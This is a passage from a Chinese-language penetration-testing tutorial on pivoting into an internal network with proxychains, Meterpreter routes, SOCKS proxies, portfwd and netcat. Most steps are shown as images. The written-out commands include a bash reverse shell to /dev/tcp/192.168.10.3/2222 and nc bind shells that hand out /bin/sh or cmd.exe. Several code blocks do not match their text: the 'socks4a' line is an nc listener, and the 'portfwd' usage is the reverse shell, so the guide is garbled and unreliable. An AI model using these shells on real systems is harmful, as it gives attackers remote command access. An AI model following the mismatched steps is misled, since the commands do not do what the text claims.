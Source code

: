 还是先修改 proxychains4.conf 这个配置文件  

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTEUxY5ibTTgvoHrw4u1ob90LCkrNCtDibHCEFXeTGHOb9IRZ5F4UrASuA/640?wx_fmt=png)

添加路由使用模块  

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTxU5HlxHoxeibibMCsHbZh2R3WRLtddwAmRt4ZEyGX1dpZn0FqF1kMYJA/640?wx_fmt=png)

这里注意一下，我们在运行之前先 show options 一下，发现默认是 socks5

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTBmXJpjtSEjWQiapqJ69nQRk4hicicCt1nNqdl5v497mAoc0PGvmicRMkXA/640?wx_fmt=png)

代理运行如果想使用 socks4a 代理，添加如下语句即可  

```
nc -lvp 2222
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTWCmra2hrmfl9xhMq9DPlgRCotkmxI0cViaWDaeIPbjGrwuUmKmClfDg/640?wx_fmt=png)

修改浏览器配置

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTB31jWt12sKxc2CE4M7gYwrdeftxdzlZOr5ZictTfxl0BibCKo2cAjaZw/640?wx_fmt=png)

成功访问内网资源  

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTSWTiakNIr02CrD0iaT1Z56Sy7ImS78uTYLFDrx6FucYYJkNWG9klhRow/640?wx_fmt=png)

拓展：portfwd 端口转发

portfwd 是 meterpreter 提供的一种基本的端口转发。porfwd 可以反弹单个端口到本地，并且监听，使用方法如下

```
bash -i >& /dev/tcp/192.168.10.3/2222 0>&1
```

然后我们访问本地 3389

**0x08 nc**

1. 正向连接

需要目标有公网 ip

目标机器

```
nc -lvp 4444 -e /bin/sh linux
nc -lvp 4444 -e c:\windows\system32\cmd.exe windows
```

攻击机器

```
nc <目标机器ip> 4444
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTIYPrDxRFMic4onn7UbT1z4a3BYQTlEgcA5BaianCNe1ZNPBn9YQLskOQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTzqT68TogQfbO0LoicoQjWibVg8b9zA9g80opzBaibib8qCs6y8ibgSNjdwg/640?wx_fmt=png)
